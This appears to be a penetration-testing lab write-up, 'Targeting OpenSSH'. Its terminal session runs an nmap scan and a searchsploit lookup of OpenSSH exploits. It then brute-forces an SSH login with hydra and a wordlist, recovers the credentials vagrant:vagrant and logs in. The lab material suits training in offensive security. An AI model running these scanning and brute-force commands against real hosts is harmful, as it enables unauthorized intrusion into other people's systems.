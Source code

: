 # Targeting OpenSSH

```sh
root@attackdefense:~# nmap -sV -sC -p 22 10.5.25.248
Starting Nmap 7.92 ( https://nmap.org ) at 2024-01-14 18:53 IST
Nmap scan report for demo.ine.local (10.5.25.248)
Host is up (0.0022s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.1 (protocol 2.0)
| ssh-hostkey: 
|   2048 83:56:2e:69:b5:2d:b4:9a:e4:7f:97:86:d8:bc:ae:7b (RSA)
|_  521 c0:e2:da:9d:e2:1e:58:09:7e:80:07:ec:3e:b4:57:f5 (ECDSA)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.24 seconds
root@attackdefense:~# searchsploit OpenSSH 7.1
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                                                                                  | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                                                                            | linux/remote/45210.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Sockets Privilege Escalation                                                      | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading                                                                                                  | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                                                                                                                      | linux/remote/45939.py
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

<pre class="language-sh"><code class="lang-sh">root@attackdefense:~# hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt 10.5.25.248 ssh
Hydra v9.2 (c) 2021 by van Hauser/THC &#x26; David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-14 18:56:52
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 168 login tries (l:1/p:168), ~11 tries per task
[DATA] attacking ssh://10.5.25.248:22/
<strong>[22][ssh] host: 10.5.25.248   login: vagrant   password: vagrant
</strong>[STATUS] 168.00 tries/min, 168 tries in 00:01h, 1 to do in 00:01h, 12 active
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 5 final worker threads did not complete until end.
[ERROR] 5 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-14 18:57:58




root@attackdefense:~# ssh vagrant@10.5.25.248
The authenticity of host '10.5.25.248 (10.5.25.248)' can't be established.
ECDSA key fingerprint is SHA256:/SMz+dLtiUg7jedCL6TkXQUoV/RrUsNi4SvWSjXW9bM.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.5.25.248' (ECDSA) to the list of known hosts.
vagrant@10.5.25.248's password: 
-sh-4.3$ 
</code></pre>

